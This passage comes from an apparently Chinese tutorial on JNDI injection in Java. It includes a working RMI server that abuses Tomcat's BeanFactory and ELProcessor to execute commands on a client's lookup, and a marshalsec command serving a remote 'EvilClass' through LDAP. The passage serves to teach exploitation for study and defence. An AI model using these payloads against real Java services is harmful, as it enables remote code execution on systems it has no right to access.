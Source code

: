 ```java  
import java.rmi.registry.Registry;    
    
public class RMIServerBypass {    
    public static void main(String[] args) throws Exception {    
        Registry registry = LocateRegistry.createRegistry(1099);    
        ResourceRef ref = new ResourceRef(&#34;javax.el.ELProcessor&#34;, null, &#34;&#34;, &#34;&#34;, true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);    
        ref.add(new StringRefAddr(&#34;forceString&#34;,&#34;evil=eval&#34;));    
        ref.add(new StringRefAddr(&#34;evil&#34;,&#34;Runtime.getRuntime().exec(\&#34;open -a Calculator.app\&#34;)&#34;));    
        ReferenceWrapper refWrapper = new ReferenceWrapper(ref);    
        registry.bind(&#34;calc&#34;,refWrapper);    
        System.out.println(&#34;Server ready&#34;);    
    }    
}   
```  
`org.apache.naming.ResourceRef` 在 `tomcat` 中表示某个资源的引用，其构造函数参数如下:  
```java  
/**  
    * Resource Reference.  
    *  
    * @param resourceClass Resource class  
    * @param description Description of the resource  
    * @param scope Resource scope  
    * @param auth Resource authentication  
    * @param singleton Is this resource a singleton (every lookup should return  
    *                  the same instance rather than a new instance)?  
    * @param factory The possibly null class name of the object&#39;s factory.  
    * @param factoryLocation The possibly null location from which to load the  
    *                        factory (e.g. URL)  
    */  
public ResourceRef(String resourceClass, String description,  
                    String scope, String auth, boolean singleton,  
                    String factory, String factoryLocation) {  
                        //...  
                    }  
```  
这里利用到了`javax.el.ELProcessor`，所以需要`Tomcat 8&#43;`或`SpringBoot1.2.x&#43;`  
## JNDI_LDAP  
`LDAP`服务作为一个树形数据库，可以通过一些特殊的属性来实现`Java`对象的存储，此外，还有一些其他实现`Java`对象存储的方法:使用`Java`序列化进行存储；使用`JNDI`的引用(Reference)进行存储  
使用这些方法存储在`LDAP`目录中的`Java`对象一旦被客户端解析(反序列化)，就可能会引起远程代码执行。  
### 低版本JDK运行  
可以通过`LDAP`服务来绕过`URLCodebase`实现远程加载，`LDAP`服务也能返回`JNDI Reference`对象，利用过程与`jndi`&#43;`RMI Reference`基本一致，不同的是，`LDAP`服务中`lookup`方法中指定的远程地址使用的是`LDAP`协议，由攻击者控制`LDAP`服务端返回一个恶意`JNDI Reference`对象，并且`LDAP`服务的`Reference`远程加载`Factory`类并不是使用`RMI Class Loader`机制，因此不受`trustURLCodebase`限制。  
利用之前，需要下载`LDAP`服务  
```xml  
&lt;dependency&gt;  
    &lt;groupId&gt;com.unboundid&lt;/groupId&gt;  
    &lt;artifactId&gt;unboundid-ldapsdk&lt;/artifactId&gt;  
    &lt;version&gt;3.1.1&lt;/version&gt;  
&lt;/dependency&gt;  
```  
**工具**  
使用`marshalsec`开启`LDAP`服务  
```  
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/\#EvilClass  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202505041658706.png)  
**流程分析**  